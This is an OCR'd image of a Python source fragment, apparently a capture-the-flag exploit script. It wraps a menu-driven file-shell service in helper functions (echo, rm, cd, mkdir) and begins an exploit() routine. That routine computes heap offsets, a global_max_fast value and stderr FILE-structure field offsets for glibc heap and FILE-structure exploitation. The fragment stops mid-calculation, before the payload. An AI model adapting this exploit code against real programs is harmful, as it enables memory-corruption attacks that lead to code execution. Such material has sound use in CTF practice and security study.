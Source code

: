 ```python  
 c.recvuntil("filename> ")  
 c.sendline(name)

def echo(path,content):  
 if "\n" in content:  
   raw_input("[w] content@echo() contains '\\n'. It would be end of input.
OK?")

 hoge("echo")  
 c.recvuntil("arg> ")  
 c.sendline(content)  
 c.recvuntil("redirect?> ")  
 c.sendline("Y")  
 c.recvuntil("path> ")  
 c.sendline(path)  
 if "invalid" in c.recvline():  
   raw_input("error detected @ echo()")  
   exit()

def rm(path):  
 hoge("rm")  
 c.recvuntil("filename> ")  
 c.sendline(path)  
 if "no" in c.recvline():  
   raw_input("error detected @ rm()")  
   exit()

# relative only  
def cd(path):  
 hoge("cd")  
 c.recvuntil("path> ")  
 c.sendline(path)

# current dir only  
def mkdir(name):  
 hoge("mkdir")  
 c.recvuntil("name")  
 c.sendline(name)

def te(filename,content):  
 touch(filename)  
 echo(filename,content)

def formula(delta):  
 return delta*2 + 0x20

## exploit ###########################################

def exploit():  
 global c  
 repeat_flag = False

 # calc ##############################################

 gmf = 0xc940  
 bufend_s = formula(0xa70 - 0x8)  
 stderralloc_s = formula(0xb08)  
 dumpedend_s = formula(0x1ce0)  
 pedantic_s = formula(0x1cf8 - 0x8)  
 stderrmode_s = formula(0xaf0 - 0x8)  
 stderrflags_s = formula(0xa30 - 0x8)  
 stderrwriteptr_s = formula(0xa58 - 0x8)  
 stderrbufbase_s = formula(0xa68 - 0x8)  
```